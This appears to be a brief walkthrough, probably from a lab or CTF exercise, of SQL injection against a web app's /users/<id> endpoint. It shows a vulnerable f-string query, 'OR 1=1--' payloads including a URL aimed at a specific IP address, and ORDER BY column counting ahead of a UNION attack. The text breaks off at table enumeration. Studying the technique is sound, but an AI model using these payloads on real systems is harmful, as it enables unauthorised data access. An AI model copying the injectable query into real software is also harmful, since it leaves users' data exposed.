 ```json
[
  {
    "id": 3,
    "name": "Charlie",
    "email": "charlie@example.com",
    "created_at": "2025-04-17T20:26:00.065Z",
    "updated_at": "2025-04-17T20:26:00.065Z"
  }
]
```


---


```python
def get_user_by_id(user_id):
        query = text(f"SELECT * FROM user WHERE id = {user_id}")
        result = db.session.execute(query, {'user_id': user_id}).fetchone()
        return result
```

```python
query = text(f"SELECT * FROM user WHERE id = {user_id}")
```

```sql
SELECT * FROM user WHERE id = 1
```

> so to show all users

```sql
SELECT * FROM user WHERE id = 1 or 1=1--
```

```url
http://54.216.80.27/users/1%20OR%201=1--
```



<img width="653" height="649" alt="image" src="https://github.com/user-attachments/assets/3d3a1315-cde5-4d51-984d-555c5eb72318" />


## NOW use ``union`` to find number of columns

```
/users/1 ORDER BY 1--
/users/1 ORDER BY 2--
/users/1 ORDER BY 3--
/users/1 ORDER BY 4--
/users/1 ORDER BY 5--
/users/1 ORDER BY 6--
```

> ### **`/users/1 ORDER BY 6--`** return `500 internal server error` so it's 5 columns 

> ### NOW want to know tables names
